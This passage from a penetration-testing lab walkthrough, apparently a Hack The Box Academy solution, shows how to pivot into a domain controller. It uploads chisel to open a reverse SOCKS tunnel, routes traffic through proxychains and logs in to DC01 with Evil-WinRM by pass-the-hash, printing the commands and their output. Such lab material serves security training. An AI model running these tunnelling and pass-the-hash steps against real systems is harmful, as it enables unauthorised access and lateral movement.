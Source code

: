 They will return to the previously established RDP session on `SRV02` (`172.20.0.52`), open `PowerShell` and upload `chisel`'s executable:

Code: powershell

```powershell
copy \\TSCLIENT\student\chisel.exe
```

```powershell-session
PS C:\Users\Leonvqz> copy \\TSCLIENT\student\chisel.exe
```

Subsequently, students will proceed to initiate a connection to the chisel's server on `SRV01` in `client` mode from `SRV02`:

Code: powershell

```powershell
.\chisel.exe client 172.20.0.51:8081 R:2080:socks
```

```powershell-session
PS C:\Users\Leonvqz> .\chisel.exe client 172.20.0.51:8081 R:2080:socks

2024/07/12 01:22:46 client: Connecting to ws://172.20.0.51:8081
2024/07/12 01:22:46 client: Connected (Latency 515.6µs)
```

Students will return to their workstations and append a new configurational setting in `/etc/proxychains.conf` tunneling the traffic on port `2080`:

Code: shell

```shell
sudo sh -c "echo socks5 127.0.0.1 2080 >> /etc/proxychains.conf"
```

```shell-session
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-fwzmhuxy3m]─[~]
└──╼ [★]$ sudo sh -c "echo socks5 127.0.0.1 2080 >> /etc/proxychains.conf"
```

Once they have appended the addition, students will connect with `Evil-WinRM` to `DC01` (`172.20.0.10`) as the user `Leonvqz` and the hash `A35289033D176ABAAF6BEAA0AA681400`:

Code: shell

```shell
proxychains evil-winrm -i 172.20.0.10 -u leonvqz -H A35289033D176ABAAF6BEAA0AA681400
```

```shell-session
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-fwzmhuxy3m]─[~]
└──╼ [★]$ proxychains evil-winrm -i 172.20.0.10 -u leonvqz -H A35289033D176ABAAF6BEAA0AA681400

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:2080  ...  172.20.0.10:5985  ...  OK
*Evil-WinRM* PS C:\Users\Leonvqz\Documents>
```
